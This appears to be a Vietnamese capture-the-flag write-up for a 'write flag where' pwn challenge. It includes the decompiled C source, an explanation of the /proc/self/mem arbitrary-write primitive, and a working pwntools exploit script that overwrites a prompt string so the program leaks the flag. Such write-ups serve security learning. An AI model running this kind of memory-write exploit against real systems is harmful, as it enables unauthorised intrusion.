 # write flag where 1

## source

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[9]; // [rsp+0h] [rbp-70h] BYREF
  _DWORD n[3]; // [rsp+4Ch] [rbp-24h] BYREF
  int v6; // [rsp+58h] [rbp-18h]
  int v7; // [rsp+5Ch] [rbp-14h]
  int v8; // [rsp+60h] [rbp-10h]
  int v9; // [rsp+64h] [rbp-Ch]
  int v10; // [rsp+68h] [rbp-8h]
  int fd; // [rsp+6Ch] [rbp-4h]

  fd = open("/proc/self/maps", 0, envp);
  read(fd, maps, 0x1000uLL);
  close(fd);
  v10 = open("./flag.txt", 0);
  if ( v10 == -1 )
  {
    puts("flag.txt not found");
    return 1;
  }
  else
  {
    if ( read(v10, &flag, 0x80uLL) > 0 )
    {
      close(v10);
      v9 = dup2(1, 1337);
      v8 = open("/dev/null", 2);
      dup2(v8, 0);
      dup2(v8, 1);
      dup2(v8, 2);
      close(v8);
      alarm(0x3Cu);
      dprintf(
        v9,
        "This challenge is not a classical pwn\n"
        "In order to solve it will take skills of your own\n"
        "An excellent primitive you get for free\n"
        "Choose an address and I will write what I see\n"
        "But the author is cursed or perhaps it's just out of spite\n"
        "For the flag that you seek is the thing you will write\n"
        "ASLR isn't the challenge so I'll tell you what\n"
        "I'll give you my mappings so that you'll have a shot.\n");
      dprintf(v9, "%s\n\n", maps);
      while ( 1 )
      {
        dprintf(
          v9,
          "Give me an address and a length just so:\n"
          "<address> <length>\n"
          "And I'll write it wherever you want it to go.\n"
          "If an exit is all that you desire\n"
          "Send me nothing and I will happily expire\n");
        memset(buf, 0, 64);
        v7 = read(v9, buf, 64uLL);
        if ( (unsigned int)__isoc99_sscanf(buf, "0x%llx %u", &n[1], n) != 2 || n[0] > 0x7Fu )
          break;
        v6 = open("/proc/self/mem", 2);
        lseek64(v6, *(__off64_t *)&n[1], 0);
        write(v6, &flag, n[0]);
        close(v6);
      }
      exit(0);
    }
    puts("flag.txt empty");
    return 1;
  }
}
```

## Ý tưởng

- chương trình có chức năng in ra các vùng địa chỉ và sử dụng `/proc/self/mem` để có thể ghi đè ở bất cứ đâu dù không có quyền write

```c
if ( (unsigned int)__isoc99_sscanf(buf, "0x%llx %u", &n[1], n) != 2 || n[0] > 0x7Fu )
    break;
v6 = open("/proc/self/mem", 2);
lseek64(v6, *(__off64_t *)&n[1], 0);
write(v6, &flag, n[0]);
close(v6);
```

- Vậy chương trình sẽ ghi flag vào bất cứ đâu ta muốn
- ta chú ý ở vòng `while()`, nó sẽ luôn in ra một đoạn `Give me a address...`. Đó sẽ là mục tiêu, ta sẽ ghi đè `Give me a address...` thành flag
## Khai thác
- Bằng gdb ta tìm được offset của chuỗi `Give me a address`

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('wfw1.2023.ctfcompetition.com', 1337)
else:
        p = process(exe.path)

GDB()
offset_give_me = 8672
p.recvlines(9)
exe_base = int("0x" + p.recv(12).decode(), 16)
info("exe base: " + hex(exe_base))
sla(b"expire", hex(exe_base + offset_give_me) + " " + str(100))
p.interactive()
```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/a0b58fde-93ab-45a8-aa03-2382028459c5)
